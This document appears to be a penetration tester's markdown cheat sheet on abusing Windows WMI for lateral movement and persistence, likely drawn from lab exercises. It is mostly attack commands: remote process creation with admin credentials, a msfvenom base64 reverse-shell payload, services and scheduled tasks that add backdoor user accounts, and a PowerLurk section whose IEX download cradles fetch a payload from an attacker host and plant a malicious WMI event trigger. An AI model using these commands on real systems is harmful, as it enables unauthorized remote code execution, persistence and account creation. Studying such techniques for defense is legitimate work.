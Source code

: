 # [WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (Windows Management Instrumentation)
[Learn More About WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/about-wmi) 
WMI is the infrastructure for management data and operations on Windows-based operating systems, allowing automation of tasks and remote management. 

WMI enables scripting languages like VBScript or PowerShell to manage Windows PCs and servers, both locally and remotely.

It can be used to query system information, execute processes, and manage services. 


**POSRTS:** Remote access through RPC on port 135 and dynamic ports (19152-65535) for session data. 
Requires **administrator credentials** (local or domain) for remote execution. 


## $ netexec wmi
![[netexec_wmi]]
## WMIC
Microsoft offers a command-line interface to WMI known as `Windows Management Instrumentation Command-line (WMIC)`.
WMIC is deprecated in Windows 10, version 21H1, with PowerShell taking over as the preferred tool for WMI operations.

- `wmic` can remotely execute commands by specifying the target IP, username, and password.
```Powershell
cmd> wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"
# Result: The process ID and return value confirm successful execution.

# install .msi package
cmd> wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

## PowerShell:

- Use `New-CimSession` to create a WMI session and `Invoke-CimMethod` to execute commands.
- This approach can execute reverse shells by encoding them in Base64.

```powershell
PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = 'calc'}
```


### interact with WMI (local)

Namespaces a collection of classes containing objects that we can interact with.
 `Get-WmiObject` cmdlet allows retrieving various information about WMI instances.
`Get-Help wmi` command lists all available cmdlets related to WMI, enabling interaction with WMI.
`Create` method to launch a process, e.g., creating a child process for 'wmiprvse.exe' (whitelist bypass)

```powershell
# Retrieve a list of processes using WMI
$processList = Get-WmiObject -List Win32_Process    

# Display information about methods for the Win32_Process object
$processList | Get-Member -MemberType Method        
```
```powershell
$processPath = "cmd.exe"                            # Specify the process path or command to launch
$processClass = Get-WmiObject -List Win32_Process   # Get the Win32_Process class
$process = $processClass.Create($processPath)       # Use the Create method to launch the process
$process                                            # Display information about the launched process
----------------------- equals to -----------------------
# Alternatively, using Invoke-WmiMethod to create a process
PS> Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe"
```
### Remote WMI Session
Establish a WMI session using one of protocols:
- DCOM: RPC over IP for connecting to WMI.(135/TCP and 49152-65535/TCP)
- Wsman: WinRM for connecting to WMI. (5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS))
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators
```powershell
# Credential object 
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
#### Establish a WMI session from Powershell
```powershell
$Opt = New-CimSessionOption -Protocol DCOM # Choose protocol DCOM or Wsman
$Session = New-Cimsession -ComputerName <TARGET> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
##### Create Process (remotely) (Invoke-CimMethod)
```powershell
PS> $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
# or command encoded with base64
# $ msfvenom -p cmd/windows/powershell_reverse_tcp LHOST=... LPORT=... | iconv -t utf-16le | base64 -w 0
# $Command = "powershell.exe -e cABvAHcAZQByAHMA..."

PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```
##### Create Process (remotely) (Invoke-WmiMethod)
```powershell
PS> Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe" -ComputerName <IP/hostname> -Credential <user>
# Check if the command executed correctly
# verify `ProcessID` and `ReturnValue = 0`

# Retrieve information about the previously executed process on the remote system
PS> Get-WmiObject -Class Win32_Process -Filter "ProcessID = '<procesID>'" -ComputerName <IP/hostname> -Credential <user> 

# Terminate the remote process
PS> Get-WmiObject -Class Win32_Process -Filter "ProcessID = '<procesID>'" -ComputerName <IP/hostname> -Credential <user> | Remove-WmiObject 

```
##### Create a service called THMService2
```powershell
PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}

# Get a handle on the service
PS> $Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
# Start Created Service
PS> Invoke-CimMethod -InputObject $Service -MethodName StartService
# Stop Created Service
PS> Invoke-CimMethod -InputObject $Service -MethodName StopService
# Delete Service
PS> Invoke-CimMethod -InputObject $Service -MethodName Delete

```
##### Create Scheduled Tasks (remotely)
```powershell
# Payload must be split in Command and Args
PS> $Command = "cmd.exe"
PS> $Args = "/c net user munra22 aSdf1234 /add"
PS> $Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
PS> Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
PS> Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"

# delete the scheduled task
PS> Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```
##### Install MSI packages
```powershell
# MSI - file format used for installers
PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```
## PowerLurk.ps1 (create malicious WMI events)
### Persistence script
- designed to maintain access to a system by employing various techniques to evade detection and remain hidden

```bash

# PREPARATION
$ msfvenom ... > payload.exe            # Create the payload
$ msf> use multi/handler ...            # Set up a handler for the payload
$ python3 -m http.server                # The attacker creates an HTTPS server hosting payload.exe and PowerLurk.ps1
```
```powershell
# Victim downloads payload
PS> IEX (New-Object Net.WebClient).DownloadFile('http://<IP>/payload.exe', 'C:\programdata\payload.exe'); 

# Execute Remote PS1 script, trigger that generates a malicious WMI event every time the user launches calc.exe program
PS> IEX (New-Object Net.WebClient).DownloadString('http://<IP>/PowerLurk.ps1'); Register-MaliciousWiEvent -EventName CalcExec -PermanentCommand "cmd.exe /c C:\programdata\payload.exe" -Trigger ProcessStart -ProcessName calc.exe

# View Our Malicious WMI Event, check CommandLineTemplate if contains "cmd.exe /c C:\programdata\payload.exe"
PS> IEX (New-Object Net.WebClient).Downloadstring('http://<IP>/PowerLurk.ps1'); Get-WmiEvent -Name CalcExec 

# Launching calculator trigers malicious WMI trigger resulting in reverse shell to attacker
```